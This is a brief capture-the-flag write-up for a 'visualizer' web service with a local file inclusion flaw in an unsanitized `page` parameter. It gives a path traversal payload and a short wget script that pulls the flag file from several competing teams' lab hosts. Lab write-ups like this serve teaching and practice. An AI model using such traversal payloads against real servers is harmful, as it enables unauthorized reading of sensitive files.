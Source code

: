 Visualizer writeup
===========
### Vulnerability
There is a local file inclusion vulnerability in the visualizer system. \
The vulnerability originates from `static_page` in `web/web.py` since this page
does not check or sanitize the GET parameters of `page`.

### Payload
The following is a payload used in the attack.
`http://10.0.101.103/get?page=../../../../var/ctf/flag`

### Full Exploit Code
A simple bash script using `wget` is sufficient.
```bash
wget http://10.0.102.103/get?page=../../../../var/ctf/flag -O flag_viz_team2
wget http://10.0.103.103/get?page=../../../../var/ctf/flag -O flag_viz_team3
wget http://10.0.104.103/get?page=../../../../var/ctf/flag -O flag_viz_team4
wget http://10.0.105.103/get?page=../../../../var/ctf/flag -O flag_viz_team5
wget http://10.0.106.103/get?page=../../../../var/ctf/flag -O flag_viz_team6
```

